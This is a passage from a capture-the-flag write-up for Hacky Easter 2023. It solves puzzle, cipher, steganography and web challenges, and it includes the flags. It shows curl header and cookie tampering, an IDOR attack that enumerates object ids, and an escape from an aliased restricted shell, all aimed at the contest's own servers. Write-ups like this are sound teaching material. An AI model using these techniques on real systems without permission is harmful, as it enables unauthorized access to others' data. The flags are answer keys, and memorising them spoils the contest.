4d0a0f8d49cb3a188fabf8ad789efb5f3ac8c839ddea189ea97d9c2a0c991d589bebb9dce9db6e6bbe6e9f2a8c2819fa5e48fe8b587b7e38c9dc6ced4d7d9fdfb81a9c0"

# lets interpret this as a bunch of pixels in hex format (6 characters per pixel)
outimg = Image.new( 'RGB', (21,21), "black")
pixels_out = outimg.load()


for i in range(0,len(hexstring),6):
    color = hexstring[i:i+6]
    pix = int(i/6)

    x = int(pix/21)
    z = int(pix%21)

    pixels_out[(x,z)]=(int(color[0:2],16),int(color[2:4],16),int(color[4:6],16))

# save the image
outimgname = "bouncy.png"
outimg = outimg.resize((500,500), resample=Image.NEAREST)
outimg.save(outimgname,"png")
```

This gives us an image, but nothing obvious there


We pass it through [StegOnline](https://stegonline.georgeom.net/upload), and whaddya know, one of the bitplanes contains a QR code! ..shoulda known, it's always the LSB..


**Egg**

```
he2023{n0_b0uNc}
```

### A Mysterious Parchment

**Challenge**

On their holiday, the bunnies came across a sleepy village with an interesting tower. While enjoying the view, one of them found a crumpled parchment in a corner. "Hah, that's clever!", the bunnies agreed after quickly solving the code and altered it ever so slightly.


**Solution**

The challenge said the bunnies altered the parchment slightly, so let's find the original so we can compare.

Some Googling tells us this is parchment of Bérenger Saunière, found in the Church of Mary Magdalene at Rennes-le-Château by Bérenger Saunière.
It is said that these documents led to the discovery of the famed treasure of Rennes-le-Château.

Coded messages were later found by historian Henry Lincoln. 


I noticed that some of the letter were moved up compared to the original, so this must be the bunnies code. I simply onderlined all the higher letters and read off the flag



its spells out `but is it a cool old parchment it sure is`. The instructions say the flag is all uppercase and no spaces, so we know our flag

**Egg**

```
he2023{BUTISITACOOLOLDCODEITSUREIS}
```

### Hamster

**Challenge**

The Hamster has a flag for you.

http://ch.hackyeaster.com:2301

Note: The service is restarted every hour at x:00.

**Solution**

we visit the url and get various responsed of how to alter our requests, so we use curl and follow instructions:


```bash
$ curl http://ch.hackyeaster.com:2301
Howdy, I am the hamster.Please go to /feed

# ok, let's go to /feed
$ curl http://ch.hackyeaster.com:2301/feed
only hamster-agent is allowed

# so let's set a user-agent
$ curl -A "hamster-agent"  http://ch.hackyeaster.com:2301/feed
⛳ GET invalid

# maybe POST? PUT? Yes, you want put
$ curl -A "hamster-agent" -X PUT http://ch.hackyeaster.com:2301/feed
🛑 request must come from hackyhamster.org

# ok, let's set a referrer
$ curl -A "hamster-agent" -X PUT -e "hackyhamster.org" http://ch.hackyeaster.com:2301/feed
🍪 brownie not found

# want a cookie? here you go.
$ curl -A "hamster-agent" -X PUT -e "hackyhamster.org" --cookie "brownie=brownie" http://ch.hackyeaster.com:2301/feed
🍪 brownie must be baked

# ok, set the value to baked
$ curl -A "hamster-agent" -X PUT -e "hackyhamster.org" --cookie "brownie=baked" http://ch.hackyeaster.com:2301/feed
🚩 he2023{s1mpl3_h34d3r_t4mp3r1ng}

#whoo, we got it!
```


**Egg**

```
he2023{s1mpl3_h34d3r_t4mp3r1ng}
```

### Lost in (French) Space

**Challenge**

My friend went to France and sent me coordinates of interesting things he found.

Three of them look legit, but one does not make sense to me.

```
48.998 2.008
45.960 0.090
43.579 1.524
45.007 4.335
```

🚩 Flag

- the first word of the thing you find
- six lowercase letters
- wrapped in flag format, e.g. he2023{thingy}


**Solution**

We look up the coordinates in Google Maps, 3 of them are for french observatories, the fourth on (`45.960 0.090`) leads us to an empty field, so that must be the one that doesn't make sense.

```
48.998 2.008  # Observatoire de Triel
45.960 0.090  # ??
43.579 1.524  # Le sentier des planètes
45.007 4.335  # Planète Mars Observatoire Hubert Reeves
```

Since the other 3 lead to observatories, what if the coordinates are to another planet? Let's try Mars first since that is part of the name of one of the observatories.

We use NASA's website [Mars Trek](https://trek.nasa.gov/mars/) and go to the coordinates `45.960 0.090`. There is a crater right there! We find it's name is Davies crater.


And that is indeed the flag!

**Egg**

```
he2023{davies}
```

### Spy Tricks

**Challenge**

The bunny spymaster found a tiny note in a forgotten dead drop and is now scratching her head; she's sure she once knew the code, but there are too many swirling aorund in her head right now. Can you help her decipher the message?

```
27231 21597 10016 20971 24727 24414 22223 25666 20345 26292
26605 23788 20345 26292 21597 10016 27857 24727 26605 10016
24727 24414 10016 20345 10016 25979 20345 21910 21597 10016
20345 25666 25666 22849 26918 20345 23788 14398 10016 27231
21597 10016 20971 24727 24414 21910 22849 25666 24101 10016
26292 22536 21597 10016 25666 21597 20971 21597 22849 25040
26292 10016 24727 21910 10016 27857 24727 26605 25666 10016
23788 21597 26292 26292 21597 25666 10016 26292 24727 10016
26292 22536 21597 10016 20345 21284 21284 25666 21597 25979
25979 10016 26918 10016 25666 21597 25040 21597 20345 26292
10016 26918 10016 20345 24414 21284 10016 26292 22536 21597
10016 25666 21597 20345 21284 22849 24414 22223 10016 24727
21910 10016 23788 21597 26292 26292 21597 25666 10016 24414
26605 24101 20658 21597 25666 10016 15337 14398 03130 32552
31613 15650 15024 15650 15963 38499 22849 29735 33804 32865
33491 31613 29735 15963 15024 15963 29735 30674 15963 36308
36308 31613 35682 29735 30674 36621 36308 29735 36308 32552
30361 36308 35995 29735 34430 15024 36308 29735 35056 35682
15337 34117 31613 39125 03130 26292 22536 21597 10016 25040
20345 20971 23475 20345 22223 21597 10016 27231 20345 25979
10016 21284 21597 23788 22849 26918 21597 25666 21597 21284
10016 26292 24727 10016 27857 24727 26605 25666 10016 27231
22849 21910 21597 10016 25040 21597 25666 25979 24727 24414
20345 23788 23788 27857 14398 10016 21597 26918 21597 25666
27857 26292 22536 22849 24414 22223 10016 22849 25979 10016
20345 23788 23788 10016 25666 22849 22223 22536 26292 10016
27231 22849 26292 22536 10016 26292 22536 21597 10016 21910
20345 24101 22849 23788 27857 14398 10016 27231 21597 10016
27231 22849 25979 22536 10016 27857 24727 26605 10016 25979
26605 20971 20971 21597 25979 25979 14398 10016 22223 25666
21597 21597 26292 22849 24414 22223 25979 10016 21910 25666
24727 24101 10016 26292 22536 21597 10016 20971 24727 24101
25666 20345 21284 21597 25979 14398 10016 24414 26605 24101
20658 21597 25666 10016 15337 13772 10016 15963 25666 21284
10016 24727 21910 10016 21284 21597 20971 21597 24101 20658
21597 25666 14398 03130
```

**Solution**

We applied random characters to this and put it through a cryptogram solver which go us .. quite close

```
WESCONGRATULATESYOUSONSASBAFESARRISALYSWESCONFIRMSTHESRECEIPTSOFSYOURSLETTERSTOSTHESADDREBBSSSREPEATSSSANDSTHESREADINGSOFSLETTERSNUMVERSJYUAXQZQXMIZDVCXZXZXZQXKKXHZQLKZKAJKIZFZKZGHJEXNUTHESPACKAGESWABSDELISEREDSTOSYOURSWIFESPERBONALLYYS
```

and then took that into python where we made more progress with a 52 character subtitution alphabet:

```
we congratulate you on a safe arrival. we confirm the receipt of your letter to the address v repeat v and the reading of letter number 1.
HE2023{i_LIKE_303_D3SSEQ_DRS_SHCSP_O0S_NQ1ME}
the package was delivered to your wife personally. everything is all right with the family. we wish you success. greetings from the comrades. number 1: 3rd of december.
```

Saskia eventually got this into

```
HE2023{i_LIKE_303_B3TTER_BUT_THATS_N0T_PR1ME}
```

Which we tried, and then tried lower case which wasn't right (:eyes:)

So we tried doing it their way which was clearly intended and did a common factor finder and oh whoopsie it was actually really simple:

```python
data = open('intercepted_message.txt', 'r').read().replace('\n', ' ').split(' ')
data = map(int, data[0:-1])
print(''.join([chr(x // 313) for x in data]))
```

and wow that was really simple, we just forgot to also capitalise the I when we uncapitalised the rest:

**Egg**

```
he2023{I_like_303_b3tter_but_thats_n0t_pr1me}
```


## Level 5

### Thumper's PWN - Ring 3

**Challenge**

Thumper has been hunting his nemesis, Dr. Evil, for months. He finally located his remote system and is trying to gain access. Can you help him find the right password?

Target: `nc ch.hackyeaster.com 2313`

**Solution**

**Egg**

```
he2023{}
```


### Ghost in a Shell 4

**Challenge**

```
  _, _,_  _,  _, ___   _ _, _    _,    _, _,_ __, _,  _,    , ,   ,
 / _ |_| / \ (_   |    | |\ |   /_\   (_  |_| |_  |   |     | \   /
 \ / | | \ / , )  |    | | \|   | |   , ) | | |   | , | ,   |  \ /
  ~  ~ ~  ~   ~   ~    ~ ~  ~   ~ ~    ~  ~ ~ ~~~ ~~~ ~~~   ~   ~
______________________________________________________________________
 ,--.     ,--.     ,--.     ,--.
| oo |   | oo |   | oo |   | oo |
| ~~ |   | ~~ |   | ~~ |   | ~~ |  o  o  o  o  o  o  o  o  o  o  o  o
|/\/\|   |/\/\|   |/\/\|   |/\/\|
______________________________________________________________________
```

Connect to the server, snoop around, and find the flag!

- ssh `ch.hackyeaster.com -p 2306 -l blinky`
- password is: `blinkblink`


**Solution**

Let's log in and see what we have:

```bash
$ ssh ch.hackyeaster.com -p 2306 -l blinky
blinky@ch.hackyeaster.com's password:

  _, _,_  _,  _, ___   _ _, _    _,    _, _,_ __, _,  _,    , ,   ,
 / _ |_| / \ (_   |    | |\ |   /_\   (_  |_| |_  |   |     | \   /
 \ / | | \ / , )  |    | | \|   | |   , ) | | |   | , | ,   |  \ /
  ~  ~ ~  ~   ~   ~    ~ ~  ~   ~ ~    ~  ~ ~ ~~~ ~~~ ~~~   ~   ~
______________________________________________________________________
 ,--.     ,--.     ,--.     ,--.
| oo |   | oo |   | oo |   | oo |
| ~~ |   | ~~ |   | ~~ |   | ~~ |  o  o  o  o  o  o  o  o  o  o  o  o
|/\/\|   |/\/\|   |/\/\|   |/\/\|
______________________________________________________________________

Find the flag!
ab81e1e4280b:~$ ls
about.txt
blinky
flag.txt
ab81e1e4280b:~$ cat flag.txt
|\---/|
| o_o |  meow!
 \___/
ab81e1e4280b:~$ less flag.txt
|\---/|
| o_o |  meow!
 \___/
ab81e1e4280b:~$ more flag.txt
|\---/|
| o_o |  meow!
 \___/
ab81e1e4280b:~$ ls -la
about.txt
blinky
flag.txt
```

ok, a bunch of commands are acting weird, let's see if they setup some aliases to make our lives difficult.. yep!

```bash
$ alias
alias ash='exit'
alias bash='echo "you are not a bash brother" && exit'
alias cat='echo "|\---/|" && echo "| o_o |  meow!" && echo " \___/" #'
alias cd='/bin/true'
alias egrep='echo "" #'
alias fgrep='echo "" #'
alias find='echo "command not found: find" #'
alias fzip='/usr/bin/zip -P "/bin/funzip"'
alias grep='echo "" #'
alias id='echo "uid=0(root) gid=0(root) groups=0(root)"'
alias java='echo "command not found: java" #'
alias less='echo "|\---/|" && echo "| o_o |  meow!" && echo " \___/" #'
alias ls='/bin/ls /home/blinky | /bin/grep -v home #'
alias more='echo "|\---/|" && echo "| o_o |  meow!" && echo " \___/" #'
alias pwd='echo /home/blinky #'
alias python='echo "command not found: python" #'
alias vi='echo "command not found: vi" #'
alias vim='echo "command not found: vim" #'
alias whoami='echo "you are you"'
alias zip='echo "command not found: zip" #'
alias zsh='exit'
```

to fix this we do

```
$ unalias sh
$ sh
```

to get a clean shell

```bash
ab81e1e4280b:~$ unalias sh
ab81e1e4280b:~$ sh
b81e1e4280b:~$ cat about.txt
Blinky, ankaŭ konata kiel Akabei, estas la gvidanto de la Fantomoj kaj la ĉefmalamiko de Pac-Man. Li ankaŭ estas prezentita kiel la plej agresema fantomo kiu ĉiam postkuras Pac-Man, kaj malfacilas skui post kiam li komencas. Li povas havi humoron, kaj estas bonaj amikoj kun Pinky, Inky, kaj Clyde. Li ankaŭ havas filinon nomitan Yum-Yum.

Dum origine la ĉefantagonisto en la unua Pac-Man arkadludo, lia antagonisma rolo de la franĉizo estis plejparte malpliigita al aliancano en lastatempaj enkarniĝoj, kvankam li daŭre estas konsiderita la serio-fakta ĉefa antagonisto en refilmigoj de la unua matĉo kaj de pli maljunaj adorantoj.

ab81e1e4280b:~$ cat flag.txt
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣶⣿⣿⣿⣿⣿⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⣿⠿⠟⠛⠻⣿⠆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀don't try⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣆⣀⣀⠀⣿⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀- brute force⠀⠀⠀⠀⠀⠀⢸⠻⣿⣿⣿⠅⠛⠋⠈⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀- wordlists⠀⠀⠀⠀⠀⠀⠀⠀⠘⢼⣿⣿⣿⣃⠠⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣟⡿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣛⣛⣫⡄⠀⢸⣦⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣴⣾⡆⠸⣿⣿⣿⡷⠂⠨⣿⣿⣿⣿⣶⣦⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣤⣾⣿⣿⣿⣿⡇⢀⣿⡿⠋⠁⢀⡶⠪⣉⢸⣿⣿⣿⣿⣿⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⣿⣿⣿⣿⣿⣿⡏⢸⣿⣷⣿⣿⣷⣦⡙⣿⣿⣿⣿⣿⡏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⣿⣿⣿⣿⣿⣿⣿⣇⢸⣿⣿⣿⣿⣿⣷⣦⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⣵⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣯⡁⠀
```

The text is Esperanto, Google translates it as

*Blinky, also known as Akabei, is the leader of the Ghosts and Pac-Man's archenemy. He is also depicted as the most aggressive ghost who always chases Pac-Man, and is hard to shake once he starts. He can have a temper, and is good friends with Pinky, Inky, and Clyde. He also has a daughter named Yum-Yum. While originally the main antagonist in the first Pac-Man arcade game, his antagonistic role of the franchise has been largely diminished to an ally in recent incarnations, although he is still considered the series-de facto main antagonist in remakes of the first game and by older fans.*

We also find another directory that was previously hidden from us by the `ls` alias, in it we find a zip file (with a curious `.fzip` extension):

```bash
ab81e1e4280b:~$ ls
about.txt  blinky     flag.txt   home
ab81e1e4280b:~$ ls home/
blinky
ab81e1e4280b:~$ ls home/blinky/
blinkyflag.fzip
ab81e1e4280b:~$ cd home/blinky/
ab81e1e4280b:~/home/blinky$ unzip blinkyflag.fzip
Archive:  blinkyflag.fzip
[blinkyflag.fzip] flag.txt password:
password incorrect--reenter:
password incorrect--reenter:
   skipping: flag.txt                incorrect password
```

We are told we don't need to brutforce of guess the password, so there must be a hint to the password around here somewhere..

We look more closely to the aliases they set up, and see

```bash
alias fzip='/usr/bin/zip -P "/bin/fyunzip"'
```

ah! they fzipped it, which was an alias for zipping with password `/bin/funzip`

```bash
ab81e1e4280b:~/home/blinky$ unzip -P "/bin/funzip" blinkyflag.fzip
Archive:  blinkyflag.fzip
error:  cannot create flag.txt
        Permission denied
```

arg, so close, but we don't have permissions to create the unzipped file..

let's just get the zip file off the server and do it locally

```
ab81e1e4280b:~/home/blinky$ cat blinkyflag.fzip | base64
UEsDBAoACQAAABCUNlVt6MFvLgAAACIAAAAIABwAZmxhZy50eHRVVAkAAyCOLGMgjixjdXgLAAEE
9QEAAAQUAAAAUr8PpJEFxM8HYAIupC/n3QYqp8g44yt7Z/fJ6CdpTcNVM403V0iMcz9C8hb3DFBL
Bwht6MFvLgAAACIAAABQSwECHgMKAAkAAAAQlDZVbejBby4AAAAiAAAACAAYAAAAAAABAAAApIEA
AAAAZmxhZy50eHRVVAUAAyCOLGN1eAsAAQT1AQAABBQAAABQSwUGAAAAAAEAAQBOAAAAgAAAAAAA
```

and then locally:

```
$ echo "UEsDBAoACQAAABCUNlVt6MFvLgAAACIAAAAIABwAZmxhZy50eHRVVAkAAyCOLGMgjixjdXgLAAEE
9QEAAAQUAAAAUr8PpJEFxM8HYAIupC/n3QYqp8g44yt7Z/fJ6CdpTcNVM403V0iMcz9C8hb3DFBL
Bwht6MFvLgAAACIAAABQSwECHgMKAAkAAAAQlDZVbejBby4AAAAiAAAACAAYAAAAAAABAAAApIEA
AAAAZmxhZy50eHRVVAUAAyCOLGN1eAsAAQT1AQAABBQAAABQSwUGAAAAAAEAAQBOAAAAgAAAAAAA
" | base64 -d > pacman.fzip
$ unzip -P "/bin/funzip" pacman.fzip
Archive:  pacman.fzip
 extracting: flag.txt
$ cat flag.txt
he2023{al1asses-4-fUn-and-pr0fit}

```

whoo!!

that was fun :)

**Egg**

```
he2023{al1asses-4-fUn-and-pr0fit}
```


### Going Round

**Challenge**

I got a flag, but it's encrypted somehow:
`ip0232j{1t_x_v0z4b3bm__v4xvq}a`

It was created using the following service:

http://ch.hackyeaster.com:2305

Note: The service is restarted every hour at x:00.

**Solution**

We get a service that takes our input and shows the encrypted flag.

It's clear its doing a rotation cipher (alternating between a rotation of 4 and 8 character), and also flipping the positions of pairs of letters.

It was easy enough to tweak our string in the service until we got the flag.


**Egg**

```
he2023{fl1p_n_r0t4t3_in_p4irs}
```


### Numbers Station

**Challenge**

"Testing, testing, one, two, one, zero.." - the bunnies found a strange radio station when looking for uplifting BunnyBop; can you find out what the nice Spanish lady is saying?

[numbers.mp3](writeupfiles/numbers.mp3)

**Solution**

**Egg**

```
he2023{}
```


### Igor's Gory Passwordsafe

**Challenge**

You found the following letter:

Hi Peter

Thanks again for your help in cryptography to make the passwordsafe secure. Now

- The passwords of the user are stored in a irreversible way (bcrypt)
- All passwords in the safe are encrypted by a strong symmetric key

Kind regards, Roy

Open the passwordsafe at at http://ch.hackyeaster.com:2312 to get your 🚩 flag.

Note: The service is restarted every hour at x:00.

**Solution**

We get a website where we can create an account, then add passwords to our vault, en from there there is an option to copy, edit or delete the passwords in the vault

So we create an account. We cannot make one with the name igor, so probably we need to impersonate igor to get into his vault?

When we create a password, it gets id `12`, I wonder why it starts there..


We find the code for copying a password, its a simple call to `/get/<id>` ..so let's just try some other ids?

```javascript
$(document).ready(function () {
    console.log("Application is running")

    $(".copypassword").click(function (obj) {
        if (obj.target.id.startsWith("copypassword_")) {
            id = obj.target.id.split("_")[1];
            $.get("/get/" + id, function (data, status) {
                if (status == "success") {
                    navigator.clipboard.writeText(data);
                }
            });
        }
    });

    $(document).ready(function(){
        setInterval(flashingEyes,1000);
     });
     function flashingEyes(){
        $("#eyes").fadeIn(400).delay(200).fadeOut(400);
     }

});

```

In the end, we find our flag when we try id `07` (by simply going to http://ch.hackyeaster.com:2312/get/07), we
get the response `he2023{1d0R_c4n_d3str0y_ur_Crypt0_3ff0rt}`

The flag refers to *Insecure direct object reference (IDOR)*

(other id's contain responses like `SQLI_doesnt_help`, `verySecure`, `Well_not_the_flag`, `White_Rabbit_99`)

ok, that was.. easier than I thought it was going to be ..was definitely overthinking this one for the longest time.

**Egg**

```
he2023{1d0R_c4n_d3str0y_ur_Crypt0_3ff0rt}
```


### Singular

**Challenge**

Wow, so many flags!

Find the real flag, which is unique in multiple ways.

[singular.zip](writeupfiles/singular.zip)

Hint: This one can be solved with linux commands, with a one-liner.

**Solution**

**Egg**

```
he2023{}
```

## Level 6

### Title

**Challenge**

**Solution**

**Egg**

```
he2023{}
```


